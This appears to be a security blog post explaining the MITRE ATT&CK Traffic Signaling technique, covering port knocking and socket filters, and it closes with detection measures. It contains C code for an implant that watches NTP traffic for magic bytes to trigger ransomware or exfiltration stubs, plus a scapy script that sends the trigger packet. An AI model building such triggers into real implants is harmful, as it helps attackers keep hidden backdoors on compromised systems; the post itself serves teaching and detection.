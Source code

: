 ```yaml
---
title: "MITRE ATT&CK TTPs: Traffic Signaling"
tags: "Learning"
article_header:
  type: cover
  image:
    src: /images/mitreattack.png
cover: /images/trafficsignaling/cover.jpg
---
```


* Tactics: Defense Evasion, Persistence, Command & Control
* Purpose: To avoid detection when sending instructions to implants on compromised systems.

## Situation

An adversary compromises a system in a target environment and is able to execute a malicious implant. Rather than immediately beaconing out to command and control (C2) infrastructure, the adversary wants to minimize suspicious traffic to avoid detection by network monitoring defenses. One way for a backdoor to stay idle until triggered on demand is using Traffic Signaling, which involves sending a specially crafted or a combination of packets to the compromised device. 

## How it works

Packets may be sent from another compromised system, like an [internal proxy](https://attack.mitre.org/techniques/T1090/001/), or from attacker infrastructure if the implanted device is externally facing. The running process monitors inbound traffic for signals. The traffic signals may instruct the malware to do something that network defenses look for, like establishing a connection with C2 infrastructure. 

One way to monitor for incoming connections is by inspecting Netstat output periodically, but spawning a child process can be suspicious. This also limits the implant to only fully established connections without the ability to inspect the frame headers or data. If the malware has administrative priviliges, it can monitor all inbound traffic on the system using pcap libraries like `npcap` on Windows or `libpcap` on Linux or create raw sockets. This includes ports in use by other programs, allowing the signals to blend in with standard traffic like SSH, HTTP, or SMB.

### Port Knocking

One method adversaries have used to signal to the listening malware is Port Knocking, which involves sending a predefined sequence of packets to different ports on the compromised system. In the example below, a program uses `libpcap` to monitor incoming packets on the local network interface. If ten SYN packets arrive at increasing fibonacci port numbers from the the same source IP address in the span of 60 seconds, a "reverse shell" is spawned.

{% include image.html url="/images/trafficsignaling/nmap_portknocking.png" description="Two Nmap scans are initiated from another system - the first with a random Nmap scan order (default), and the second with 10 sequential fibonacci port numbers (using the -r flag)" percentage="80" %}
{% include image.html url="/images/trafficsignaling/portknocking.png" description="The implant is triggered when it detects the correct order" percentage="80" %}


### Socket Filters

Another way to send signals is by filtering for crafted packets with unusual characteristics or "magic bytes" embedded in the data. The payload may carry different signals, allowing additional control. In the following scenario, a program uses a raw socket to filter for inbound UDP packets on port 123 (NTP). When a "password" byte chunk is detected, the following ten bytes will signal which action the program should take.

~~~
// UDP port 123 packet received, checking data for signals
void check_byte_pattern(const char* udpData, int length) {
    const unsigned char passwordChunk[] = { 0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3 };
    const int passLength = sizeof(passwordChunk);

    const unsigned char signal1[] = { 0x7B, 0x8C, 0x2D, 0x5F, 0xE6, 0x91, 0x4A, 0x0D, 0xF3, 0xC8 };
    const unsigned char signal2[] = { 0x1E, 0xA7, 0x9B, 0x05, 0xD4, 0x8F, 0x36, 0xC2, 0x7D, 0xE9 };
    const unsigned char signal3[] = { 0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E };

    // Search every 10 byte chunk in the UDP data
    for (int i = 0; i <= length - passLength; i++) {
        // If the 10 byte chunk matches the passwordChunk
        if (memcmp(udpData + i, passwordChunk, passLength) == 0) {
            // If there are at least 10 more bytes after the target pattern
            if (i + passLength + 10 <= length) {
                printf("  Signal detected: ");
                print_hex(passwordChunk, passLength);

                printf("  Next ten bytes: ");
                print_hex((const unsigned char*)(udpData + i + passLength), 10);

                if (memcmp(udpData + i + passLength, signal1, 10) == 0) {
                    clean_presence();
                }
                else if (memcmp(udpData + i + passLength, signal2, 10) == 0) {
                    deploy_ransomware();
                }
                else if (memcmp(udpData + i + passLength, signal3, 10) == 0) {
                    exfiltrate_data();
                }
            }
            break;
        }
    }
}
~~~
{: .language-c}

The following Python script sends a UDP packet with the byte combo needed to trigger the `exfiltrate_data` method.

~~~
from scapy.all import IP, UDP, Raw, send
import random

target_ip = "192.168.56.1"
target_port = 123

payload = bytes([
    0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3,
    0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E
])

prefix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
suffix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
final_payload = prefix + payload + suffix

packet = IP(dst=target_ip) / UDP(dport=target_port) / Raw(load=final_payload)
send(packet, verbose=1)
~~~
{: .language-python}

{% include image.html url="/images/trafficsignaling/socket_filter.png" description="Socket filter received signal to exfiltrate data" percentage="80" %}

### Detective Measures

Monitor network traffic for abnormal connection combinations that do not follow standard flow patterns. Behavioral analytics solutions and stateful firewalls can perform some of this analysis. Create detections around malformed packets that do not conform to their destination port's application protocol structure, or packets that originate from the wrong source port (such as NTP datagrams that are not both to and from port 123). This may assist in finding covert signals attempting to blend in.

Alert on untrusted programs that create raw sockets (`AF_INET`,`SOCK_RAW`) or use packet filter libraries. On Windows, detect NDIS (Network Driver Interface Specification) driver installations using the `Get-NetAdapterBinding` PowerShell Cmdlet and monitor for `PF_PACKET` sockets on Linux.

## References

- [MITRE ATT&CK - Traffic Signaling](https://attack.mitre.org/techniques/T1205/)
- [MITRE ATT&CK - Port Knocking](https://attack.mitre.org/techniques/T1205/001/)
- [MITRE ATT&CK - Socket Filters](https://attack.mitre.org/techniques/T1205/002/)